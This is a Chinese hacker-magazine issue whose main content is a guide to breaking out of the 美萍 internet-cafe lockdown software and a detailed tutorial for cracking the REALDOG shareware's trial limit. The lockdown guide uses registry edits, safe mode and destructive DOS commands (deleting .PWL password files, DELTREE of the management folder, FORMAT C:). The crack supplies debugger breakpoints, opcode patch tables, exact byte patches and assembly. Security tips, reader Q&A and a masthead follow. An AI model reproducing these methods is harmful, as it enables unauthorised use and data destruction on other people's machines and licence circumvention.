  2. 突破禁止打开文件的限制：在进入美萍后选择浏览器“文件－打开”。在对话框中选择要打开的文件。如果打不开，请先按住右键，再按左键。然后便可以打开了。这样便可以打开计算机中的任何文件了。如果一定要退出美萍，可依此步骤：开始菜单－程序－附件－系统工具－系统信息中选择工具－系统配置实用程序－启动，在启动中把 SMENU 前面的勾划掉，重启计算机，便可不启动美萍。此法只限于美萍屏蔽掉注册表时使用。同2法打开 WINDOWS－REGEDIT，再打开时注册表会自动消失，不过会有一秒左右的停留时间，迅速用鼠标左键点注册表一下并按住注册表对话框，会上下跳动出现冲突，便可退出美萍。此法需多试几次便能掌握。退出后一切正常，只有开始菜单不能用。在网管来时进入美萍便可。

下面让我们进一步深入探讨美萍的破解问题：美萍有注册和未注册之分。同样是注册的美萍，又有限制级别之分。对美萍的破解有几个最重要的工具，那就是 Control.exe、Regedit.exe、Msconfig.exe。有了这几样利器就可以一展身手了。当然，工具是要用，可是人家不让怎么办？可以通过以下几种办法来实现：

- 1. 利用地址栏

在美萍中限制最差的是只要在 IE 的地址栏里敲入 `file:///c:/windows/control.exe` 就可以调出控制面板。如果是 Windows 98，那么点一下向上的按钮就可以调出“我的电脑”。如果是 Windows 95 就请试试 EXPLORER.EXE，不过好像效果不佳。

- 2. 利用文件下拉菜单

点一下 IE 的文件下拉菜单，点一下“打开”，再点“浏览”，是不是什么文件都可以看见？选择你想要的文件，点“确定”，可以吗？

如果不行，请把“以 WEB 文件夹方式打开”的单选框选上再试一次，这时会跳出一个提示框：IE 无法将某文件作为 WEB 文件夹打开，是否按默认方式查看？选取“是”会跳出文件下载提示框询问如何处理该文件，点“在当前位置运行该程序”单选框，点一下“确定”会出现一个安全设置警告提示框，再点一下“是”，你就可以运行该程序了。如果没有反应，那就只好再深入一步处理。

- 3. 利用邮件编辑器

随便打开一个网址，页面的最下端往往都有一个“联系我们”超级链接，点一下会跳出邮件编辑器 Outlook 或是 Foxmail，不要忽视其用途。选取加入附件：浏览选定，然后点一下它，一定可以运行。

如果控制面板和注册表编辑器被禁用了，那么请试试 MSCONFIG.EXE。点一下诊断启动单选框，点一下“确定”，下一次启动时就不会加载美萍。

在极少数的情况下连 MSCONFIG.EXE 都被禁用了，那么用 NOTEPAD.EXE 导入注册表文件的方法解开控制面板和注册表编辑器。用 NOTEPAD.EXE 新建一个文本文件，把下面的内容打进去，把文件的扩展名 *.TXT 另存为 *.REG，然后双击该文件，点“是”就可以导入注册表：

（下转47页）

## 网吧上网安全8招

文／王艾萍

互联网的普及使网吧在祖国各地遍地开花，然而当你在网吧中驰骋网络的时候，可曾注意到有一双藏在黑暗中的眼睛正在观察着你的一举一动呢？

说到安全，我们自然先来看看“黑客”常用的攻击方法。“黑客”的攻击方法可以是你所接触到的任何东西：从键盘到硬盘，从诈骗到轰炸。下面我们就逐一列举这些问题。

### 1. 键盘

是不是感觉到很奇怪，为什么把键盘放在第一位呢？键盘也会遭到攻击吗？很简单，键盘是我们与外界进行沟通的重要桥梁，我们要通过它输入大量的信息，所以许多“黑客”软件都把这只“黑暗中的眼睛”放在了这里。通过记录键盘的活动，可以很容易地得到很多有价值的东西，例如密码、谈话内容。

解决办法：对付这些东西，最好的办法还是使用杀毒软件。如果杀毒软件带有病毒防火墙，需要注意下载最新的防火墙的版本。

### 2. 浏览器

我们上网肯定离不开浏览器，这也是泄漏秘密的“好地方”。浏览器的漏洞主要是IE缓存的问题以及Cookie的问题，尤其是Cookie，有的Cookie里面包含了你的登录网站名称、登录时间甚至登录密码。“踏雪无痕”这类软件就是专门查看Cookie的“黑客”软件。

解决办法：点“Internet选项”、“删除文件”把缓存彻底删除掉。

### 3. 腾讯QQ

现在哪家网吧会把腾讯QQ拒之门外呢？正因为腾讯QQ的广泛使用，腾讯QQ每一个新版本的发布都受到众多“黑客”的关注。从嗅探器、键盘记录器、轰炸器到偷看聊天记录等攻击方式，让人防不胜防。

解决办法：腾讯QQ的更新速度非常快，所以要注意下载使用最新版本；在QQ中点“系统参数”、“网络安全设置”、“拒绝陌生人信息”就可以对付QQ的轰炸；还应该设置“使用本地信息加密”。

### 4. 网页浏览

浏览网页是我们获取网上信息的重要方法之一，对于网页浏览需要注意以下几点：登录免费信箱的时候尽量到指定的网站上去登录，不要在个人主页上登录，因为该网站很可能会记录下你的用户名和口令。对付无限制弹出窗口的网页（这是网页浏览时的恶作剧，可以让你的机器死机），可以先按住“Ctrl+Alt+Del”键，把“EXPLORER”窗口关闭，然后再修改“Internet”选项，禁止执行Java。对于网页中插入的ActiveX，当提示下载安装的时候一定要看清楚是否签名，如果没有签名就存在包含木马的可能性。尽量到知名的下载网站去下载软件，对下载的软件最好先杀毒。

### 5. 硬盘共享

网吧等于一个局域网，所以对于网络硬盘的共享一定要注意，尤其是硬盘的写权限千万开不得。最好把所有的硬盘全部设置为不共享。

### 6. 拷贝粘贴

我们有时候会大量地使用拷贝粘贴功能来复制文件和文字。当离开机器的时候最好把剪贴板清空，尤其要注意是否使用了某些剪贴板增强工具，这些工具通常会自动记录你所拷贝的文件数量和内容，即便是非正常关机都不会消失。

### 7. 遗留文件

不要随便打开别人遗留下来的文件。好奇心并非总是好事。“黑客”为了使普通用户去掉戒备之心，总是利用大家最常见或者喜好的东西来骗人上当。一个图标是WINZIP的文件实际上却可能是一个木马；一款漂亮的FLASH动画背后可能隐藏了许多不为人所知的“勾当”。

### 8. 异常变化

最后，注意计算机的异常变化。当你正在聊天的时候，突然鼠标不听你指挥了，或者计算机突然重新启动了，又或者突然出现一个新的窗口等，这些迹象表明你使用的计算机遭到了别人的控制。最好的防范办法，是下载天网个人防火墙，切断与网络的连接，天网同时也会自动记录下入侵者的IP。

## 破解技术全接触

### 前言

鉴于目前网络及书籍中缺乏较为全面且通俗易懂的介绍破解知识的文章，故想将本人对破解软件知识的一点认识拿出来与大家一起分享。望此举能对各位大虾有所帮助，同时也希望各位大虾能将自己对破解技术的高见拿出来与大家一同分享，借此来推动破解技术的发展。

### 概念

- 1. 断点：所谓断点就是程序被中断的地方。
- 2. 中断：中断就是由于有特殊事件（中断事件）发生，计算机暂停当前的任务（即程序），转而去执行另外的任务（中断处理程序），然后再返回原先的任务继续执行。
- 3. 中断向量：中断向量就是中断处理程序的入口地址。
- 4. 领空：所谓程序的领空，说白了就是程序自己的地方，也就是程序自己的代码所处的位置。
- 5. API函数：即 Application Programming Interface 的简写，中文叫应用程序编程接口，是一个系统定义函数的大集合，它提供了访问操作系统特征的方法。API包含了几百个应用程序调用的函数，这些函数执行所有必须的与操作系统相关的操作，如内存分配、向屏幕输出和创建窗口等；用户的程序通过调用API接口同Windows打交道，无论什么样的应用程序，其底层最终都是通过调用各种API函数来实现各种功能的。通常API有两种基本形式：Win16和Win32。Win16是原来的API的16位版本，用于Windows 3.1；Win32是现在的API的32位版本，用于Windows 95/98/NT/ME/2000。Win32包括了Win16，是Win16的超集，大多数函数的名字、用法都是相同的。16位的API函数和32位的API函数的区别在于最后一个字母。
- 6. 完全破解：如果我们能通过对程序的跟踪找到正确的注册码，通过软件本身的注册功能正常注册了软件，这样的破解称之为完全破解。
- 7. 暴力破解：如果有些软件本身没有提供注册功能，只是提供试用（DEMO），或是注册不能通过软件本身进行（例如需要获取另外一个专用的注册程序，通过Internet的注册等等），或者是软件本身的加密技术比较复杂，软件破解者的能力、精力、时间有限，不能直接得到正确的注册码，此时我们需要去修改软件本身的代码，即人为改变软件的运行方向，这样的破解称之为暴力破解。

### 破解基本知识

- 一、常用断点

1）万能断点

- `bpx hmemcpy`：拦截内存拷贝动作
- `bpx Lockmytask`：拦截按键的动作

2）拦截窗口

- `bpx CreateWindow`：创建窗口
- `bpx CreateWindowEx(A)`：创建窗口
- `bpx ShowWindow`：显示窗口
- `bpx UpdateWindow`：更新窗口
- `bpx GetWindowText(A)`：获取窗口文本

3）拦截消息框

- `bpx MessageBox(A)`：创建消息框
- `bpx MessageBoxExA`：创建消息框
- `bpx MessageBoxIndirect(A)`：创建定制消息框

4）拦截对话框

- `bpx DialogBox`：创建模态对话框
- `bpx DialogBoxParam(A)`：创建模态对话框
- `bpx DialogBoxIndirect`：创建模态对话框
- `bpx DialogBoxIndirectParam(A)`：创建模态对话框
- `bpx CreateDialog`：创建非模态对话框
- `bpx CreateDialogParam(A)`：创建非模态对话框
- `bpx CreateDialogIndirect`：创建非模态对话框
- `bpx CreateDialogIndirectParam(A)`：创建非模态对话框
- `bpx GetDlgItemText(A)`：获取对话框文本
- `bpx GetDlgItemInt`：获取对话框整数值

5）拦截注册表：

- `bpx RegOpenKey(A)`：打开子键（例：`bpx RegOpenKey(A) if *(esp+8)=="****"`）
- `bpx RegOpenKeyEx`：打开子键（例：`bpx RegOpenKeyEx if *(esp+8)=="****"`）
- `bpx RegQueryValue(A)`：查找子键（例：`bpx RegQueryValue(A) if *(esp+8)=="****"`）
- `bpx RegQueryValueEx`：查找子键（例：`bpx RegQueryValueEx if *(esp+8)=="****"`）
- `bpx RegSetValue(A)`：设置子键（例：`bpx RegSetValue(A) if *(esp+8)=="****"`）
- `bpx RegSetValueEx(A)`：设置子键（例：`bpx RegSetValueEx(A) if *(esp+8)=="****"`）

“****”为指定子键名的前4个字符，如子键为“Regcode!”，则“****”=“Regc”。

6）拦截时间

- `bpx GetLocalTime`：获取本地时间
- `bpx GetSystemTime`：获取系统时间
- `bpx GetFileTime`：获取文件时间
- `bpx GetTickCount`：获得自系统成功启动以来所经历的毫秒数
- `bpx GetCurrentTime`：获取当前时间（16位）
- `bpx SetTimer`：创建定时器
- `bpx TimerProc`：定时器超时回调函数

7）拦截文件：

- `bpx CreateFileA`：创建或打开文件（32位）
- `bpx OpenFile`：打开文件（32位）
- `bpx ReadFile`：读文件（32位）
- `bpx WriteFile`：写文件（32位）
- `bpx _lcreat`：创建或打开文件（16位）
- `bpx _lopen`：打开文件（16位）
- `bpx _lread`：读文件（16位）
- `bpx _lwrite`：写文件（16位）
- `bpx _hread`：读文件（16位）
- `bpx _hwrite`：写文件（16位）

8）拦截驱动器

- `bpx GetDriveType(A)`：获取磁盘驱动器类型
- `bpx GetLogicalDrives`：获取逻辑驱动器符号
- `bpx GetLogicalDriveStringsA`：获取当前所有逻辑驱动器的根驱动器路径

9）拦截狗

```text
bpio -h 378（或278、3BC）R    378、278、3BC是并行打印端口
bpio -h 3F8（或2F8、3E8、2E8）R    3F8、2F8、3E8、2E8是串行端口
```

10）拦截特殊指令

```text
bpx if ((byte)*eip==c3)    拦截 ret 指令
```

- 二、常见代码

```text
CALL ****
TEST EAX,EAX
JNZ ***（或JZ ****）
```

从以往的经验来看，90%以上的软件，其关键代码都是以上三条指令，只是具体的值不同而已，其中 CALL **** 的作用通常是调用验证子程序，而验证子程序通常是验证输入的信息是否合法（比如：验证是否是盗版，验证是否过了试用期，验证是否存放有光碟，且是否是正确的含有特征字符串的光碟等）。TEST EAX,EAX 的作用是用来测试验证子程序的返回值的，JNE **** 是用来判断输入是否合法，合法则执行真正有用的程序代码，不合法则给出提示并退出程序。

- 三、常用汇编语言

| 类型 | 指令 | 机器码 | 跳转条件 |
|---|---|---|---|
| 8位跳转指令 | JC | 72 | C=1 |
| 8位跳转指令 | JNC | 73 | C=0 |
| 8位跳转指令 | JZ/JE | 74 | Z=1 |
| 8位跳转指令 | JNZ/JNE | 75 | Z=0 |
| 8位跳转指令 | JMP | EB | 无条件 |
| 16位跳转指令 | JC | 0F82 | C=1 |
| 16位跳转指令 | JNC | 0F83 | C=0 |
| 16位跳转指令 | JZ/JE | 0F84 | Z=1 |
| 16位跳转指令 | JNZ/JNE | 0F85 | Z=0 |
| 16位跳转指令 | JMP | E9 | 无条件 |
| 特殊指令 | PUSHF | 9C |  |
| 特殊指令 | PUSH **** | 68****（****代表具体的数值） |  |
| 特殊指令 | POPF | 9D |  |
| 特殊指令 | NOP | 90 |  |
| 特殊指令 | RET | C3 |  |

- 四、破解思维

我们现在在知道软件是通过判断指令来判别其输入是否合法，合法则转主程序执行，非法则弹出警告框后退出。假如在输入非法时，我们只需要更改其判别标志位（通常是 C 位），就可以让其认为输入合法而得以继续运行下去。但更改标志位需启动调试软件，且每次运行程序时都要更改，因此我们可以采用暴力破解的方式，用更改跳转指令的方法来更改软件，这样就免去每次都要修改之苦了。最简单的更改方法是使跳转反向，即若输入错误，则程序将转向改为不转向，若其不转向改为转向。

但这也有所局限，例如：有些游戏软件玩游戏时需放入光碟，按以上方法修改后就不需要放入光碟了，可是有时不经意地放入了正确的光碟反而不能玩了，究其原因是因为游戏软件将验证光驱中是否有碟，以及碟片是否合法合成了一个例程来验证，改为反向有碟（碟片正确与否不重要）就变成了无碟，从而转向去执行不合法的指令了。

更好的方法是使其判别失效，即输入不合法不要跳转，改为无条件跳转（即改为不合法则跳转）；输入不合法时要跳转时，因其合法时不要跳转，我们将其改为空操作（90）或跳转至下一条指令即可（即改为不合法则不跳转）。

具体操作如下：

反向操作：

```text
74    改    75
75    改    74
0F84  改    0F85
0F85  改    0F84
```

合法则跳转改无条件跳转操作：

```text
74或75        改    EB
0F84或0F85    改    90E9
```

合法不跳转改跳转至下一条指令操作：

```text
74或75**      将**改00即可（**为跳转地址，占用1个字节）
0F84或0F85**  将**改00即可（注意：**占用4个字节）
```

合法不跳转改空操作：

```text
74或75**      改为9090即可（**占用1个字节）
0F84或0F85**  改为909090909090即可（**占用4个字节）
```

### 选择软件

目前共享、试用软件过多，怎样选择一款合适的软件来作教学软件的确让人伤透脑筋。经过反复思量，我决定采用 REALDOG（build011005 版）来作演示，因其采用动态指令更新技术，不但需用传统的破解技术，还需使用自己独创的一些技巧才可成功破译，因此它是最理想的演示软件。

### 一、软件简介

REALDOG 是由 HotFox（笨笨火狐）开发的多媒体文件编辑器，版本为 build011005 版。该编辑器能将多种多媒体文件格式转换为 REALPLAY 的 RM 格式，可剪辑编辑 REALPLAY 格式文件，但使用前必须先安装 Producer_Plus 编码器。它提供 15 天的试用期，虽然我们可以通过更改系统时间的方法来继续试用，但是改来改去太过麻烦，且我本人无法忍受好东西使用受限制，故萌发了将其解密的念头。

### 二、基本工具

- TRW2000：动态调试器
- HIEW：16 进制编辑器，同时支持汇编语言修改文件代码

这两个软件的使用参见相关资料。

### 三、操作步骤

首先考虑到时间限制问题大都调用 getsystemtime 或 getlocaltime 函数来获取系统时间，因此我们可以使用 TRW2000 设置如下断点（先将系统时间改为过期）：

- 1. `bpx getsystemtime`  
  `bpx getlocaltime`
- 2. `g`  
  注：运行程序直到被中断；
- 3. 当系统调用这两个函数之一时即被中断，此时程序不在自己的领空（情况参见图1），因此需用 `pmodule` 命令使其返回自己的领空；
- 4. 再次 `g`，出现图2；
- 5. 将时间改为正常时间，再次设置相同断点，执行相同操作，发现第二次被中断后，返回程序领空时地址出现了不同，见图3；
- 6. 此时可知此断点已无利用价值，改为手工单步调试，即 F10 和 F8 键交替运用；
- 7. 在运行途中用 F9 键设置不同的断点，反复比较超时与不超时程序走过的路线；
- 8. 经过漫长、单调、无味的单步跟踪，最终找到关键代码地址 402C11；
- 9. 用 `code on` 命令得到指令序列，见图4；
- 10. 用 `r fl` 将其标志位反向（反向后为跳转），用来验证关键指令地址是否找错；
- 11. `g`；
- 12. 因我已将时间改为超时，运行后出现如图5的结果，至此，足以证明此地址为关键指令地址；
- 13. 凭以往经验，直接使用 HIEW 查找特征字符串 `03D2750750ADB8D058`，将 `75` 改为 `EB` 即可。

（注意：抽出的特征字符串越长越好，越长重复的可能性就越小）。至此，几乎所有常规手段我们都已用到。

然而世事难料，没想到结果会是找不到此特征字符串，随即陷入苦思之中，稍许整理出以下思绪：

- 1. 可能此关键代码不在主文件 realdog.exe 中，可能在某 DLL 中；
- 2. 可能其采用了动态指令更新技术，其运行的某些关键代码是通过运算生成的。

对于第一种情况，只要注意一下 TRW2000 中的提示，就能发现异常（提示位于指令窗口及命令窗口的分隔线上，参考图4）。此时，发现代码位于 realdog!pec1.txt 中，退出后，随即整个硬盘搜索 realdog!pec1 文件，结果提示找不到此文件。随后改为搜索 realdog，也只发现 realdog.exe 文件。

对于第二种情况，运用指令 `bpm cs:402c11 rw` 来跟踪所有用来读写地址为 CS:402C11 的指令，经过一番痛苦的跟踪，来到地址为 455334 处，发现如图6所示用于修改指令的代码：

继续跟踪代码，希望能获得其运算法则，又经过一番痛苦的跟踪仍得不出结果，该死的头都大了，还搞不清楚它是怎样运算的，看样子要另找出路。

经过一番苦思，终于有了灵感：“何必管它是怎样运算的，只要它往地址为 cs:402c11 处写入 75 时，将 75 改为 eb 就搞定了！”

通过分析指令后，认为关键处还是在 455334 处，因为此时代码值已然算出，并存入 AL 寄存器中，而这步操作正是将代码值写入由 EDI 寄存器指示的存储单元。我认为只有当 EDI 等于 402C11 时才需要替换 AL 寄存器中的值。当然，AL 寄存器中的值是不会自己改变自己的，这就需要我们来改写指令了。

改写思维：我们知道要使指令转向，在正常情况下只有使用跳转指令。有人可能会说采用中断技术也能使指令转向，但是某被中断后，还是会从断点处恢复的；当然，采用病毒技术，修改其返回地址除外。若采用中断技术来改写的话，其中断的时机要求非常精确，一般人力控制是不可能如此精确，哪怕就是采用定时中断方式也不能保证其精确性；同时还要编写复杂的中断处理程序，修改完成后，还需要立刻恢复其中断向量，因为不恢复中断向量的原始值的话，只要中断一被触发，此地址的值就被修改，有可能此时此值已不能再被修改了，因此我不采用中断技术。

我决定采用替换指令的办法，将 455334 处的代码换为无条件跳转指令，跳转的具体地址是在程序代码段内寻找的一片空白区，空白区的首地址为 455492，因此可在 455334 处写入逻辑指令 `jmp 455492`，对应的机器码为 `e9590f0000`（因为机器码是更改后的绝对正确的指令，而逻辑指令并不是计算机可执行指令，因此机器码不可删减），此指令占用五个字节，其替换了以下三条逻辑指令：

```asm
MOV [EDI],AL
INC EDI
JMP 455310
```

因此，在 455492 中写入的指令必须包括以上三条指令，同时应有判断语句，用以判断是否应该替换 AL 的值，不需替换就执行原来的指令（包括以上三条和地址位于 455337 处的指令及其后的一系列指令），而 455337 处为跳转指令，跳转至 455310 处。为此，我设计出以下逻辑指令：

```asm
cmp        edi,402c11
jne        aaaa
mov        al,eb
aaaa:mov   [edi],al
inc        edi
jmp        455310
（此处不应删减，因其为逻辑指令，不能直接执行）
```

至此，我已经设计出了逻辑指令，只要将其中的逻辑地址的正确值写对，也就万事大吉了。

我用 HIEW 编辑器来写入以上逻辑指令。

小技巧：写入逻辑指令 `jne aaaa` 时，因不知其地址，故可采用 `jne 0` 的手段写入指令，当写完 `mov al,eb` 指令时将得到其下条指令的地址（地址为 45549C），再将 `jne 0` 改为 `jne 45549C` 即可。

将其存盘后，直接运行。此时弹出程序执行非法操作对话框，赶紧启动 TRW2000，使用命令 `bpx 455334,g`，发现位于 455492 处的所有跳转指令完全变了样，已不是我所期望的地址。究其根源是因为使用跳转指令时，CPU 将当前指令的第一条指令地址加上逻辑偏移地址，得到跳转的物理地址。为了解决此问题，我采用了病毒技术，用中断的方式来篡改其返回地址，花费一番功夫之后，得到如下机器码：

| 地址 | 机器码 | 指令 |
|---|---|---|
| 455492 | 81ff112c4000 | cmp edi,402c11 |
| 455498 | 7502 | jne 45549c |
| 45549a | b0eb | mov al,eb |
| 45549c | 8807 | mov [edi],al |
| 45549e | 47 | inc edi |
| 45549f | 6810534500 | push 455310 |
| 4554a4 | c3 | ret |

```asm
jne aaaa
mov al,eb
aaaa:pop edi
mov [edi],al
inc edi
push eax
push eip
pop eax
and eax,fffff
add eax,55310
push eax
mov eax,esp
sub eax,4
mov eax,ss:[eax]
ret 4
```

将其修改后存盘运行，出现图5。至此，我们已经成功破解了采用动态指令更新技术的 REALDOG 软件。

**后记：** 以上破解代码也有不足之处，因其代码全部使用绝对地址。不见得各位的计算机将 REALDOG 载入的地址与我的计算机相同，因此可能按以上代码写的程序不能在你的计算机中通过。针对以上情况建议使用相对地址来编写程序，逻辑指令如下：

（以上逻辑指令未经严格测试，只是提供一个方案而已）

```text
55492: push edi  注：55492 为相对地址
and edi,fffff
cmp edi,2c11
```

最后，愿以上的一点个人心得，能对各位有所帮助。因本人能力有限，可能其中还存在有一些不足之处，欢迎各位大虾给小弟提出些意见建议，来信请寄 byjishacker@mail.china.com，再次感谢各位的支持。

> （上接40页）
>
> （REGEDIT4 [HKEY_...CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
> "NoDevMgrPage"=dword:00000000
> "disableregistrytools"=dword:00000000）

### 4. 利用安全模式

- 如果 NOTEPAD.EXE 被禁用了也没关系，还有一个法宝：安全模式，当然前提是先不再上网。

步骤如下：

重新启动计算机，在“STARTING WINDOWS....”后按住 Ctrl 键，会出现启动菜单。如果没有，那是 C:\MSDOS.SYS 文件中 BOOTKEY=0 了。看到蓝天白云后快按主机上的 Reset 键，再次重启！哪怕主机被锁在柜子里，只要用 Ctrl+Alt+Del 就可以了，这次会出现启动菜单并解释因为系统启动时出错，要求进入安全模式，按“确定”进入。

进去看一看会发现，连安全模式里都有美萍，或许这台计算机上还会有一个高级用户，没关系，可以继续按下面步骤处理：

### 5. 利用 DOS 实模式

重新启动进入 DOS 实模式，`DEL C:\WINDOWS\*.PWL`，把其他的用户都干掉，你就是最高级的用户了。如果还不行，那么在 DOS 实模式下 `DELTREE C:\SMENU`，或者是 `FORMAT C: /Q/U`。如果没有外部命令 FORMAT 和 DELTREE，如果连内部命令 DEL 都没有，那一定是 DOSKEY 命令宏搞的鬼。在 DOS 提示符下敲入 `SET` 查看一下，把该改的都改过来，例如：“DOSKEY DEL=”就可以解除。

通过上述步骤，所有网吧所用的任何美萍限制都形同虚设了。当然了，在此声明一点：本文所述方法仅限读者个人在适当的情况下为达到合理使用目的而试用，一切带有非法破坏目的的举动均后果自负。

不知道大家看到这个赠品还有没有一种兴奋的感觉，Bright 希望大家能够喜欢，每期能够让大家看到更多的好文章一直是我的期望，为了这种感觉能够更长时间地延续下去，为了黑防能够更好地发展，在此，我以个人身份，以作为朋友们一个未曾谋面的朋友身份请大家给予支持，在访问我们网站 www.hacker.com.cn 的同时，能够点击一下黑防的广告链接，多些支持，我将以加倍的努力来做好黑防内容作为回报。

Question：黑编你好：

你好，我想申请加入在线编辑部。我一直是黑客防线的忠实读者，也是一位网络电脑爱好者，精通汇编语言、8086+80386+保护模式编程，对互联网特别是网络安全很感兴趣，也对网络安全漏洞、安全操作和知识很熟悉。我自愿参加这个俱乐部，确保做到能对自己负责，对读者负责，对黑防负责！

自从我上网以来认识网络大多数安全人士，希望可以借助常常与他们接触，多约好稿，我自己当然也是个业余写稿者，曾有两篇安全文章被杂志采用。由于我是时间很充裕，所以可以时常到黑防站点浏览答疑！

我还有点不明白的就是策划选题的具体含义！可以给我解答一下吗？

我在黑防的注册名字是：softbug

Answer：借这个机会我向大家说说在线编辑部的事情。首先我们欢迎大家来参加，我们的目的是想聚集天下资源办好黑客防线，无论你在何方都可以参与我们的编辑部，加盟我们。连日来我们也收到了大量加盟的请求和咨询，其中对于选题策划表示不明的确有不少，由于某些原因，我不能直接在论坛和网站上明确地告诉读者和网友，因此只有借此宝地来说几句。一般要做一个合格的在线编辑，并且可以得到客观的回报，需要每天维护我们的网站，更新新闻栏目，认真回答读者问题，每月提供一定数量的稿件，杂志采用 10 篇以上。选题策划则是我们重点考虑的，因为黑防要有自己的特色，要有出彩的文章，并不能全部依靠作者，编辑直接和读者打交道，了解读者的需求，他们要经常想一想，有什么好的出发点，本月有什么热点，或者一个好的选题应该怎么着手来写，写什么样的结构最合理等等，也就是说我们不能盲目地去约稿，要有一定的目的性、针对性，只有这样才可以约到高质量的稿件。现在，在线编辑的成员不是很多，但是起码他们非常认真，也有人感觉在线编辑虚无缥缈，可能不能拿到工资，其实作为一个媒体，我们根本不会去欺骗读者，我们的在线编辑部货真价实，我们的编辑部队伍也日益壮大，但是本着对读者负责，对公司负责的态度，我会对在线编辑严格考核。（bright）

Question：你好！

我的孩子前一段时间上网，无意中进入了一个黄色网站，强行关机后，现在发现每次开机的速度越来越慢，且电脑运行也出现了问题。请问应下载什么软件，或采取什么措施来消除这种现象？多谢指导！

Answer：根据你的描述我认为你机器运行速度慢的原因是中了求职信病毒，编辑部也曾备受其害，主要是感染蠕虫病毒以后，这种病毒在机器内大量复制，消耗系统资源，因此会感觉机器运行变慢。只要查杀完以后就可以了，你可以用诺顿、金山毒霸等杀毒软件。另外，针对你小孩上黄色网站的情况，我建议你用美萍反黄专家、网站过滤专家等软件，它们可以帮助您过滤掉已知的网址库中的非法或者不健康的网站，能自动查找网页中不健康的内容，一旦发现，就禁止浏览这个页面，还可以自己添加被限制的网站。过滤器启动以后将自动保护自己所在目录和 Windows 目录不被用户在资源管理器里面浏览。无论软件是否被强行终止，过滤功能仍然有效。

Question：我最近上网的时候发现主页被人改了，一上网就连接到一个不知名的黑客网页，没打开网页就被测到有病毒。我马上用 KV3000 杀毒，但是主页还是修改不了。请问我是中了木马病毒了吗？我应该怎样做？谢谢！

Answer：你不要紧张，你并不是感染病毒或者中了木马，只是现在很多网页内有一些恶意代码，在你浏览该网页的时候会更改你的 IE 设置，一般也没有什么危害，就是比较讨厌。比较傻瓜的解决方式是你可以用一些专门的 IE 修复工具修正，比如：金山毒霸 IE 修复工具、魔法兔子等。你也可以去 www.google.com 搜索“IE 修复工具”找到更多的。

Question：我现在正在学习黑客程序的编程，请问是不是必须了解 API 函数？要全部了解吗？

Answer：你说的 API 是 Windows API 吗？如果只是想成为一个初中级开发者，进行数据库应用开发的话，对于 WinAPI 只要了解一点就行了。如果要进行 Windows 底层开发，例如写防毒程序这类需要使用大量 WinAPI 的应用，就需要尽量地熟悉和掌握了。

## 卷首语

### 由“黑客招安”说起

前一阶段一则新闻在网站等各类媒体中引人注目，标题也具轰动性：“广东省长语出惊人：政府月薪万元养黑客！”内容大意是广东省政府为营造良好技术研发氛围，减少广东民间信息安全人才的严重流失，由省长卢瑞华代表省政府公开表示：“政府愿以月薪一万元养‘黑客’高手，让他们的专才能为政府服务。”此言一出，即刻在社会各界特别是网络安全圈内引起小小的轰动，新闻中提到：民间黑客团体“中国鹰派联盟”负责人“老鹰”很快发表积极回应，表示他们愿为中国计算机网络安全服务。此事件作为网络安全界一个较为敏感的话题，在国内或许尚属首次涉及。

“黑客”自其伴随计算机网络诞生而出现以来，一直被视作网络安全防不胜防的现实或潜在威胁而存在着，是令世界各国政府头疼的“对立面”甚至“打击面”。不过几年前，在世界信息技术最发达同时也是“黑客”活动最活跃的美国，政府的一个以毒攻毒的变通思路给人们带来启发，那就是政府公开礼聘高水平“黑客”，使其为政府的网络安全建设服务，这让人联想起中国古代统治者对一些“农民起义”运动的“招安”策略，也许两者性质完全不同，但前者不失为“不战而屈人之兵”，且“趋利避害”的明智选择。凡事都讲求“因势利导”，应充分发挥事物的积极一面，为正义所用。

我们姑且也将广东省政府此举比作是对“黑客”们的一种“招安”，这其中还有另一层背景。此间舆论认为，目前公认北京的网络安全发展环境在国内首屈一指，安全公司多、薪金待遇高、技术研发氛围好，从而导致全国各地相关人才的纷纷涌入。广东省政府已意识到原本丰富的广东民间信息安全人才流失日益严重，从本省网络安全技术的长远发展角度出发，营造良好技术研发氛围，留住人才是当务之急，政府“招安”之举的核心目的也在于此。此事对于所有求贤若渴的政府、企业或许都是个启示，俗语说“种得梧桐树，招来金凤凰”，待遇和良好的研发环境也许就是吸引“金凤凰”的“梧桐树”吧。作为从事网络安全宣传的大众传媒，《黑防》无意过多深触及此事和发表评论，只是此事不能不带给人们有关“事物的两面性”以及“人才流动”这两个话题的深入思考。身处这个与时俱进的变革时代和竞争无所不在的生存环境，无论企业还是个人都不能无视这样一些现实：面对劲敌，或枕戈强硬，或怀柔“招安”；企业发展，或贤才广进，或人心思走；个人生存，或超越自我，或坐以待毙。一切事物的普遍规律就是矛盾和变化，矛盾可以转化，就像“黑客”被“招安”；变化随时随地，比如“人才流动”。面对矛盾和变化我们所应该做的就是：灵活地调整和积极地适应。

以上是《黑防》编辑部由“黑客招安”说起的题外话，还请读者继续关注我们杂志的核心内容吧。

总编辑：孙彬

执行主编：郭晓辉

编辑：秦丁可、王宇

在线编辑：苏樱、劲刀狂舞、SQL、Heavyd

企联部主任：肖亦然

企业联络部：张馨

美编部：王凤

技术部：徐生震

发行部：杨贵兰

邮购部：王英

光盘刊号：CN15-9201/TP

编辑：黑客防线编辑部

出版：家庭电脑世界杂志社

制作公司：北京地海森波网络技术公司

通信地址：北京中关村邮局008信箱

邮政编码：100080

协办单位：北京寰海科技开发中心

技术支持电话：62141445-8004

投稿E-mail：hacker@hacker.com.cn

问题解答E-mail：answer@hacker.com.cn

网址：http://www.hacker-defence.com

发行部电话：62141446

发行部传真：62141360

邮购部电话：62141445-8011

常年法律顾问：北京汉清律师事务所

王碧清律师

电话：13701229137

传真：(010) 84510532

E-mail：wangbiqing@163.com

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00元人民币（光盘+说明书）

## 卷首语

## 业界动态

- 新闻动态
- 名家专访
- 安全网络可以这样织
  - ——本报记者专访普方德总经理张坤先生
- 永远的“冰河”
  - ——访著名软件“冰河”的开发者黄鑫

## 专题企划

### 实战 Web Server

对于任何一个企业来说，网络服务器都是必不可少的，但网络服务器的安全却一直是一个令人烦恼的问题。如何配置一台相对安全的服务器是我们急需了解的，为此，我们本期专题主要讲述这个问题。和以往专题所不同的是，本期专题由3位作者所完成，包括 Windows 2000 和 *NIX 的具体应用以及 Web 系统日志分析的强大工具，希望能对大家有所帮助。

- 用 Windows 2000 建立安全 Web 站点
- 正确配置和维护 Apache Web Server 安全性
- WebTrends Enterprise Suite：分析 Web 系统日志的强大工具

## 网管之家

- 在网络环境下杀毒须考虑的几大需求
- 防火墙软硬一体
